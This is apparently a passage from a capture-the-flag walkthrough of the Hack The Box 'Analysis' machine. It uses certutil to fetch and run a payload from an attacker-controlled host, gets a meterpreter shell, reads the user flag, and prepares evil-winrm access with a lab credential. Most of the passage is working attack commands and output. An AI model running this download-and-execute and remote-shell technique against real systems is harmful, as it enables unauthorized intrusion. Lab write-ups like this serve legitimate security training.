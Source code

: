 In console as **analysis\jdoe** , run the following command.

```
C:\Windows\system32> powershell -c "cmd /c certutil -urlcache -f http://10.10.16.20:8080/s1.exe %temp%/s1.exe"
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

```
C:\Windows\system32> start %temp%/s1.exe
```

Now you will get **user access** in meterpreter shell.

```
meterpreter > shell
Process 4888 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
analysis\jdoe

C:\Windows\system32>cd C:\Users\jdoe\Desktop
cd C:\Users\jdoe\Desktop

C:\Users\jdoe\Desktop>type user.txt
type user.txt
6289da5500147e70185d1---------

C:\Users\jdoe\Desktop>
```

**PRIVILEGE ESCALATION**

Add these lines after **openssl\_init**

```
┌──(Batman㉿GC)-[~]
└─$ sudo nano /etc/ssl/openssl.cnf

...

[openssl_init]
providers = provider_sect

[provider_sect]
default = default_sect
legacy = legacy_sect
```

Now run

```
┌──(Batman㉿GC)-[~]
└─$ evil-winrm -u "jdoe" -i "analysis.htb" -p "7y4Z4^*y9Zzj"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
```